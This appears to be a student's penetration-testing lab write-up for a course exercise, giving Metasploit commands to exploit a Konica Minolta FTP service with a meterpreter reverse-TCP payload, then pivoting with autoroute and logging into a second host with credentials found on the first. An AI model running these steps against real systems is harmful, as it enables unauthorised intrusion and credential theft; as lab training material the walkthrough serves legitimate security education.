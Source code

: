 # Assigment 1
For full executive report, see [PWNChallenge1_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/69735350464e7b4b88eede348b337de66701a3e0/pwnchallenge1/PWNChallenge1_GabriellaAhn.pdf).

## Step 1
1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    nmap -open 10.20.170.20-100
    ``

    10.20.160.41 host is found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.41.
   
    ``
    nmap --A 10.20.160.41
    ``
    
    Port 21 is an open port for FTP from version of Konica Minolta FTP Utility. 
    
3. Open Metasploit.

    ``
    msfconsole
    ``
    
4. Since we are going to use _Konica Minolta FTP Utility_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Konica
    use exploit/windows/ftp/kmftp_utility_cwd
    ``
   
5. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.41
    set RPORT 21
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
7. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``

8. In C:\Users\Fred\Desktop. there is SSH.bat which looks strange. Open the file.

    ``
    cat SSH.bat
    ``
    
    ![image](https://github.com/haein001/CMU_penetration-testing/assets/77334059/5c0d8d0e-f2cc-4c4c-ad79-2247619e3a0d)

9. Using this we are going to compromise the other host. In order to add route from present session, use autoroute.

- **autoroute:** is used to add routes associated with the specified Meterpreter session to Metasploit's routing table. These routes can be used to pivot to private networks and resources that can be accessed by the compromised machine.

    It will make my current session into background session.

    ``
    run autoroute -s 10.20.170.0
    run autoroute -p
    background
    ``
    
10.  Search ssh_login, to use the information from the SSH.bat.

    ``
    search ssh_login
    ``
    
11. Set the basic information for the exploit.

    ``
    use auxiliary/scanner/ssh/ssh_login
    set USERNAME jill
    set PASSWORD JillIs100%Awesome
    set rhost 10.20.170.87
    exploit
    ``

12.  After succesfully logging into the machine, check the session you are in and go to the new session that is created.

     ``
    sessions -i
    sessions -i (number)
    ``

13.  Then, use linux command to search the proof.txt.

